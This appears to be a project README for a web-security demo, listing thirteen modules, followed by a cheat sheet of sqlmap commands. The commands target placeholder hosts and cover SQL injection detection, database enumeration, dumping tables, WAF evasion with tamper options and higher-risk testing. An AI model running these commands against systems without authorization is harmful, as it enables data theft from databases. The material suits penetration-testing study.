

The Importance of Secure Web Applications in Cybersecurity

In a digital era dominated by increasingly sophisticated cyberattacks, the security of web applications has become a crucial component of data protection and online infrastructure security. Web applications are often targeted by cyber threats such as SQL Injection, Cross-Site Scripting (XSS), brute force attacks, and the exploitation of unpatched vulnerabilities.

A Secure Web Application provides a protected environment through robust authentication, advanced encryption, access control, and threat detection. This project was created to demonstrate and implement best practices in web security, using a set of 10 essential modules, each playing a critical role in safeguarding online applications.

1. Secure Login System
2. Web Application Firewall (WAF) Simulation
3. Vulnerability Reporting Platform
4. Data Encryption/Decryption Tool
5. User Role-Based Access Control System
6. Secure File Storage System
7. Cyber Attack Simulation and Logging
8. Secure Comment System
9. Password Manager
10. Secure Messaging System
11. WPScan
12. Xmlrcp-attack
13. Clickjack

Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

Basic command:

1. sqlmap -u "http://target.com/vulnerable.php?id=1" ( basic command to start testing if a website is vulnerable to SQL Injection.)

2. sqlmap -u "http://localhost/verifyLogin.php" --data="username=admin&password=12345"  ( Specifying request methods )

3. sqlmap -u "http://target.com/page.php?id=1" ( Automatically detecting and testing parameters )

4. sqlmap -u "http://target.com/page.php?id=1" --dbs ( To list available databases on the target server )

5. sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables ( After obtaining the database, you can list its tables )

6. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns ( To list the columns of a table within a database )

7. sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump ( extract data from a table )

8. sqlmap -u "http://target.com/page.php?id=1" --random-agent ( If the target site has a WAF or other protections, a custom user-agent can help )

9. sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment ( To bypass WAF protections, you can use the --tamper option )

10. sqlmap -u "http://target.com/page.php?id=1" --level=5 --risk=3 (You can increase the testing intensity by using the --level and --risk options)

    --level: sets the level of testing (higher means more types of attacks).
    --risk: sets the risk of testing (higher means more aggressive testing).

11. sqlmap -u "http://target.com/page.php?id=1" --cookie="PHPSESSID=12345abcde" ( To inject an authenticated session, you can add a cookie to your request )

12. sqlmap -u "http://target.com/page.php?id=1" -D database_name --dump --output-dir=/path/to/save/results ( To save the results to an output file )

13. sqlmap -u "http://target.com/page.php?id=1" --proxy="http://127.0.0.1:8080" ( To intercept requests and analyze them, you can use a proxy (e.g., Burp Suite )

14. sqlmap -u "http://target.com/page.php?id=1" --verbose=3 ( To get detailed information about each step SQLMap takes )

15. sqlmap -u "http://target.com/page.php?id=1" --technique=T ( To test if the site is vulnerable to time-based SQL Injection )

16. sqlmap -u "http://target.com/page.php?id=1" --technique=BEUSTQ ( Specifying SQL Injection type )

17. sqlmap -u "http://target.com/page.php?id=1" --auth-type=basic --auth-cred="username:password" ( To test an application that requires authentication (basic HTTP authentication)
                                                                                                   
18. sqlmap -u "http://target.com/page.php?id=1" --threads=10 ( To speed up tests on large websites, you can use multiple threads )                                                                                             
